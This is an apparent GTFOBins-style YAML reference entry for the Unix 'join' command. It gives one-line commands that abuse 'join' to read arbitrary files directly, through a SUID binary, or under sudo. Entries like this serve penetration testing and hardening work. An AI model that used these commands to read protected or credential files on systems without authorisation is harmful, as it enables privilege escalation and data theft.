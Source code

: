 ```yaml
---
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        join -a 2 /dev/null $LFILE
  suid:
    - code: |
        LFILE=file_to_read
        join -a 2 /dev/null $LFILE
  sudo:
    - code: |
        LFILE=file_to_read
        sudo join -a 2 /dev/null $LFILE
---
```

